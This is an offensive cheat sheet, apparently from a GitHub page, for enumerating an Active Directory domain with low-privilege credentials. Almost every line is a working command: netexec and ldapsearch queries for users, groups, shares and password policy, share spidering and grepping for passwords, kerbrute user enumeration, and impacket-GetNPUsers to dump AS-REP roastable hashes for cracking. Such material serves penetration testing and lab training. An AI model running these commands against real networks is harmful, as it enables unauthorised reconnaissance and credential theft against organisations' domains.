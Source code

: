 ## Enumeration With Low-Priv Credentials

**Once you have ANY domain credentials (even low-priv user):**

### User/Group Enumeration
```bash
# Get domain users
netexec smb DC_IP -u USERNAME -p 'PASSWORD' --users > users.txt

# Get domain groups
netexec smb DC_IP -u USERNAME -p 'PASSWORD' --groups > groups.txt

# Get domain admin users
netexec smb DC_IP -u USERNAME -p 'PASSWORD' --groups "Domain Admins"

# Get all group memberships
netexec ldap DC_IP -u USERNAME -p 'PASSWORD' --users --groups

# LDAP enumeration
ldapsearch -x -H ldap://DC_IP -D "USERNAME@DOMAIN.LOCAL" -w 'PASSWORD' -b "DC=domain,DC=local" "(objectClass=user)" sAMAccountName
```

### Share Enumeration
```bash
# List shares on all hosts
netexec smb 10.10.10.0/24 -u USERNAME -p 'PASSWORD' --shares

# Spider shares looking for interesting files
netexec smb TARGET -u USERNAME -p 'PASSWORD' -M spider_plus

# Look for passwords in share names/descriptions
netexec smb 10.10.10.0/24 -u USERNAME -p 'PASSWORD' --shares | grep -i "password\|backup\|admin"
```

### Password Policy Enumeration
```bash
# Get password policy
netexec smb DC_IP -u USERNAME -p 'PASSWORD' --pass-pol

# Using ldapsearch
ldapsearch -x -H ldap://DC_IP -D "USERNAME@DOMAIN" -w 'PASSWORD' -b "DC=domain,DC=local" "(objectClass=domain)" pwdProperties
```

## Kerberos Enumeration

### User Enumeration via Kerberos
```bash
# Kerbrute - enumerate valid users
kerbrute userenum --dc DC_IP -d DOMAIN.LOCAL /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt

# Check if users have pre-auth disabled (AS-REP roastable)
impacket-GetNPUsers DOMAIN/ -dc-ip DC_IP -usersfile users.txt -format hashcat -outputfile asrep_hashes.txt
```

